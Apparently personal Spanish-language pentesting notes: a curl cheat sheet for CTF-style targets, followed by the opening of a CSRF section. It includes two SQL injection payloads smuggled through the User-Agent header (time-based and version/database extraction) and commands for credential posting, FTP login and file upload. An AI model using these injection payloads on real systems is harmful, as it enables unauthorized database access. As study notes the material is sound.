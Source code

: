 java algo (sin extensión)



# CURL

jueves, 7 de mayo de 2020

14:38

[https://www.andreafortuna.org/2020/05/14/curl-my-own-cheatsheet/](https://www.andreafortuna.org/2020/05/14/curl-my-own-cheatsheet/)

**Curl** -\&gt; descarga una página y se pueden especificar parámetros. Y filtros.

curl -i -s -k -X $&#39;GET&#39; $&#39;http:/objetivo/algo.php&#39;

curl -d &quot;password=leonardo&quot; -X POST [http://88.198.233.174:42076/index.php](http://88.198.233.174:42076/index.php)

curl -s -v -P - &#39;[ftp://user:pass@172.20.0.1/](ftp://user:pass@172.20.0.1/)&#39; --\&gt;permite loguearse en ftp y listar el contenido.

curl -k -H &#39;Host: [s3cr3t4r3a.l4tinhtb.io](http://s3cr3t4r3a.l4tinhtb.io/)&#39; [https://45.79.216.154/](https://45.79.216.154/) --\&gt;para no tener que agregar al /etc/hosts

Curl -X POST -F &quot;submit:\&lt;value\&gt;&quot; -F &quot;\&lt;file-parameter\&gt;:@\&lt;path-to-file\&gt; \&lt;site\&gt; --\&gt;para subir un archivo



User Agent Injections (dos opciones)

1. curl -A &quot;Mozilla/5.0&#39;, (select\*from(select(sleep(20)))a)) #&quot; [http://example.com/insecure.php](http://example.com/insecure.php)

2. curl -v -X POST &quot;[https://victim/&quot;](https://victim/%22) -H &quot;user-agent: tes&quot;,(select version()),(select database())))-- -&quot; --data &quot;realdata&quot;

curl ipinfo.io/\&lt;ipvictima\&gt; trae datos geográficos de una IP

Cómo burlan paneles de autentificación básicos

![](RackMultipart20210412-4-pcx9xb_html_debfb191eb4588d7.png)



# CSRF - Cómo generar peticiones remotas

jueves, 7 de mayo de 2020

14:38

What are common ways to perform a CSRF attack?

The most popular ways to execute[CSRF attacks](http://www.cgisecurity.com/articles/csrf-faq.shtml) is by using a HTML image tag, or JavaScript image object. Typically an attacker will embed these into an email or website so when the user loads the page or email, they perform a web request to any URL of the attackers liking. Below is a list of the common ways that an attacker may try sending a request.
